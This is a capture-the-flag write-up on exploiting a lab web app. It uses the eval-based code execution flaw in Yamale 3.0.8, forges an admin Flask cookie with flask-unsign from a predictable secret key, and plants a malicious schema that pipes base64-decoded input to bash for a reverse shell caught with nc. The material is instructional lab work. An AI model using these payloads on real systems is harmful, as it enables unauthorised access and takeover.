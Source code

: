 # valid yaml
> Yet Another Markup Language, YAML, YAML Ain't Markup Language, Yamale

## About the Challenge
We were given a website with a source code (You can download the source code [here](src.zip)), on this website we can validate our YAML file


[Image extracted text: lint
Login
Name
Person
Schema
name:
str()
age:
int (max-200)
height:
num( )
awesome:
bool( )
Validate
Powered by Yamale 3.0.8
yaml]


The website also utilizes `Yamale 3.0.8` to validate our YAML file."

## How to Solve?
Yamale 3.0.8 is vulnerable to RCE (You can check the detail [here](https://github.com/23andMe/Yamale/issues/167))

```python
schema = yamale.make_schema(content="""
name: str([x.__init__.__globals__["sys"].modules["os"].system("echo 'test' > test") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
""")

# Create a Data object
data = yamale.make_data(content="""
name: Bill
age: 200
height: 6.2
awesome: True
""")

# Validate data against the schema. Throws a ValueError if data is invalid.
yamale.validate(schema, data)
```

But we can't exploit this vulnerability immediately because we can only control the data object, not the schema. However, if we check the source code, when logged in as an admin, we can create/edit our own schema.

```python
@app.route("/admin/schemas", methods=["GET", "POST"])
@authed_only
def schemas():
    if request.method == "GET":
        schemas = Schemas.query.all()
        return render_template("schemas.html", schemas=schemas)
    elif request.method == "POST":
        name = request.form["name"]
        content = request.form["content"]
        schema = Schemas(name=name, content=content)
        db.session.add(schema)
        db.session.commit()
        return redirect(url_for("schema", schema_id=schema.id))


@app.route("/admin/schemas/<int:schema_id>", methods=["GET", "POST"])
@authed_only
def schema(schema_id):
    schema = Schemas.query.filter_by(id=schema_id).first_or_404()
    if request.method == "GET":
        return render_template("schema.html", schema=schema)
    elif request.method == "POST":
        name = request.form["name"]
        content = request.form["content"]
        schema.name = name
        schema.content = content
        db.session.commit()
        return redirect(url_for("schema", schema_id=schema.id))
```

To logged in as an admin, we can manipulate the cookie because of the app secret key is predictable

```python
class Config(object):
    SECRET_KEY = hashlib.md5(
        datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()
    ).hexdigest()
    BOOTSTRAP_SERVE_LOCAL = True
    SQLALCHEMY_DATABASE_URI = "sqlite:///app.db"
    SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Note when you deploy the website, then you will know the secret key. And then use `flask-unsign` command to create the cookie, here is the payload I used to login as an admin

```bash
flask-unsign --sign --cookie '{"id": 1}' --secret 'cb9a2657b00b63983cf7217b268855eb'
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
3)
In
=
Pretty
Raw
Hex
Render
GET
/admin/ schemas
HTTP/1.1
Host:
thecybercoopctf-3f808118261f-valid-yaml-1. chals. io
lint
3
User-Agent:
Mozilla/5.0
(Windows
NT
10
0;
Win64;
X64)
AppleWebKit/537.36
(KHTML ,
like
Gecko)
Chrome
120,
0.6099.71
Safari/537
36
Accept:
Schemas
text/html,application/xhtml+xml,application/xml;q-0.9, image/avif_
image/webp
image/apng,*/*;q=0.8,application/signed-exchange;v-b3_
q=0.7
Person
5
Cookie:
session-eyJpZCI6MXO . ZYENj Q. FNHr_segTNph6FyI_BFI14qSyqk
6
People
IP Addresses
Create New Schema
Name
Name
Schema
Schema
yaml]


Use the public proof of concept to perform Remote Code Execution (RCE). Here is the schema I used to do a reverse shell.

```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("echo AAAAAAAAAAA== | base64 -d | bash") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
```


[Image extracted text: root@ubuntu-s-Ivcpu-Zgb-sgpl-01:~#
nc
~nvlp
9999
Listening
on
0.0.0 .0
9999
Connection
received
on
45.55.194.53
45362
bash:
cannot
set
terminal
process
group
(1) :
Inappropriate
ioct
bash:
no
job
control
in
this
shell
root@9d67492c0450: /opt/app#
1s
1s
000-default.conf
pycache_
app
db
app.py
config.py
txt
models.pY
populate.py
requirements
in
requirements
txt
serve
sh
static
templates
root09d67492c0450: /opt/app#
cat
txt
cat
txt
{not_even_apache_can_stop_the_mighty_eval}
flag
flag.
flag
flag]


```
flag{not_even_apache_can_stop_the_mighty_eval}
```